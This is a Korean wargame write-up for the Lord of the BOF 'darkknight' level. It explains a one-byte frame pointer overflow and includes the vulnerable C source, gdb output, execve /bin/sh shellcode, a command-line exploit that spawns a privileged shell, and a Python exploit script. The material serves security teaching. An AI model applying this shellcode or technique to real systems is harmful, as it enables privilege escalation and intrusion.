 ```yaml
---
title: "[LOB]Level12. darkknight"
tags: [LOB, writeup, FPO]
author: eli_ez3r
key: 20180012
category: write-up
date: 2018-08-30 02:00:00 +0900
modify_date: 2019-11-14
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[SFP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

-----

### 0x01. Analysis

problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



실제 올라가게 되는 problem_child의 buffer배열 주소를 구해보자.

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"S"*36+"\x80"'`
AAAASSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS?퓹? ♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -c core
Core was generated by `./aarkknight AAAASSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/32x $esp-4
0xbffffc84:     0x41414141      0x53535353      0x53535353      0x53535353
0xbffffc94:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffca4:     0x53535353      0x53535353      0xbffffc80      0x0804849e
0xbffffcb4:     0xbffffe06      0xbffffcd8      0x400309cb      0x00000002
0xbffffcc4:     0xbffffd04      0xbffffd10      0x40013868      0x00000002
0xbffffcd4:     0x08048390      0x00000000      0x080483b1      0x0804846c
0xbffffce4:     0x00000002      0xbffffd04      0x080482e4      0x080484dc
0xbffffcf4:     0x4000ae60      0xbffffcfc      0x40013e90      0x00000002
```

problem_child의 buffer배열의 시작주소는 `0xbffffc84`로 확인되고 있다.

이제 우리는 problem_child함수의 sfp 1byte를 바꿀수 있는 것을 이용하여 공격을 해야한다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.

> leave 명령어는 `mov esp, ebp`, `pop ebp` 순으로 진행되고, 
>
> ret 명령어는 `pop eip`, `jmp eip` 순으로 진행된다.
>
> 자세한 내용 설명은 맨 하단으로~

그리고 problem_child의 buffer배열의 시작부분에 shellcode가 실행될 주소를 넣어주면 된다.

[LOB Darkknight문제를 이용한 SFP Overflow 설명]( https://eliez3r.github.io/post/2019/10/17/study-system-SFP-Overflow.html )

-----

&[buffer - 4] : 0xbffffc80

&[buffer + 4] : 0xbffffc88

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
[golem@localhost golem]$ ./darkknight `python -c 'print "\x88\xfc\xff\xbf"+"\x90"*12+"\x31\xc0\x50\x68\x2f\x2f\x73\x 68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x80"'`
덡퓧릱릱릱릱릱?픐h//shh/bin됥PS됣솻
                                     ??퓹?  ♠?왠?옹    ♥@☻
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

-----

```python
import os
import struct

append = lambda x: payload + x
p8 = lambda x: struct.pack("<B", x)
p32 = lambda x: struct.pack("<I", x)

target = "/home/golem/darkknight"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
buffer_addr = 0xbffffc84
last_sfp = 0x84 - 4

payload = p32(buffer_addr + 4)
payload = append("\x90"*(40-4-len(shellcode)))
payload = append(shellcode)
payload = append(p8(last_sfp))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

